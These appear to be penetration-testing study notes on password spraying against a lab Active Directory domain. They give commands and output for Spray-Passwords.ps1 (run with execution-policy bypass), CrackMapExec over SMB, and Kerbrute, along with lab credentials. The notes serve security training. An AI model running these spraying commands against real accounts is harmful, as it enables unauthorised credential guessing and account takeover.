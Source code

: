 Using Spray-Passwords to attack user accounts
```hlt:12,13
PS C:\Users\jeff> cd C:\Tools

PS C:\Tools> powershell -ep bypass
...

PS C:\Tools> .\Spray-Passwords.ps1 -Pass Nexus123! -Admin
WARNING: also targeting admin accounts.
Performing brute force - press [q] to stop the process and print results...
Guessed password for user: 'pete' = 'Nexus123!'
Guessed password for user: 'jen' = 'Nexus123!'
Users guessed are:
 'pete' with password: 'Nexus123!'
 'jen' with password: 'Nexus123!'
```

##### Password Spraying Using SMB and CrackMapExec (_Noisy and Slow_)
###### Command: `crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success`

```hlt:9,10
kali@kali:~$ cat users.txt
dave
jen
pete

kali@kali:~$ crackmapexec smb 192.168.50.75 -u users.txt -p 'Nexus123!' -d corp.com --continue-on-success
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [-] corp.com\dave:Nexus123! STATUS_LOGON_FAILURE 
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\jen:Nexus123!
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\pete:Nexus123!
```

If a user has admin privileges, crackmapexec will inidicate this with (Pwn3d!)
```hlt:1,Pwn3d!
kali@kali:~$ crackmapexec smb 192.168.50.75 -u dave -p 'Flowers1' -d corp.com                       
SMB         192.168.50.75   445    CLIENT75         [*] Windows 10.0 Build 22000 x64 (name:CLIENT75) (domain:corp.com) (signing:False) (SMBv1:False)
SMB         192.168.50.75   445    CLIENT75         [+] corp.com\dave:Flowers1 (Pwn3d!)
```

##### Password Spraying Using TGTs and Kerbrute (_Stealthier and Cross Platform_)
###### Command: `.\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"`

```hlt:18,19
PS C:\Tools> type .\usernames.txt
pete
dave
jen

PS C:\Tools> .\kerbrute_windows_amd64.exe passwordspray -d corp.com .\usernames.txt "Nexus123!"

    __             __               __
   / /_____  _____/ /_  _______  __/ /____
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/

```